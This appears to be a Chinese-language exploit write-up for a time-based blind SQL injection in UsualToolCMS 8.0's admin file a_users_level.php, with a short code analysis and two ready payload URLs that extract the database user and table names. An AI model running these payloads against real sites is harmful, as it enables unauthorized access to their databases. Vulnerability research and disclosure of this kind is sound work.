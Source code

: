 # UsualToolcms 8.0 后台盲注

> 原文：[http://book.iwonder.run/0day/UsualToolcms/4.html](http://book.iwonder.run/0day/UsualToolcms/4.html)

## 一、漏洞简介

## 二、漏洞影响

UsualToolCMS-8.0-Release

## 三、复现过程

### 漏洞分析

./cmsadmin/a_users_level.php 第 19 行和第 26 行，id 参数可控

![image](img/2a5c783c762e58ad35c65afc0273bdb9.png)

从 get 处获取 id 参数，id 存在无任何过滤，当 postt id 时，通过 sqlcheck 函数进行过滤，来到文件./class/UsualToolCMS_INC.php 第 33 行，将(',\,",null)转义，34 行调用 sqlchecks 函数，比没过滤 sql，然而 a_users_level.php 第 19 行 id 不是字符

![image](img/ee62817e6a479e05f7cd58c98b75ac5d.png)

### 复现

可以利用时间盲注来进行 sql 注入攻击，payload 如下：

```
a.当前数据库：http://0-sec.org:8080/UsualToolCMS/cmsadmin/a_users_level.php?x=m&id=2 and if(ascii(substr(user(),1,1))=114,sleep(6),1) 
```

```
b.表：http://0-sec.org:8080/UsualToolCMS/cmsadmin/a_users_level.php?x=m&id=2 and if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>30,sleep(6),1) 
```

![image](img/c7825a96d4500f26ef746bfd4023c31b.png)

时间盲注验证脚本

![image](img/a24a2a6b969f103f93d94289c6bbb453.png)

![image](img/9c36238a7e2df09e7c405f0b8b111063.png)

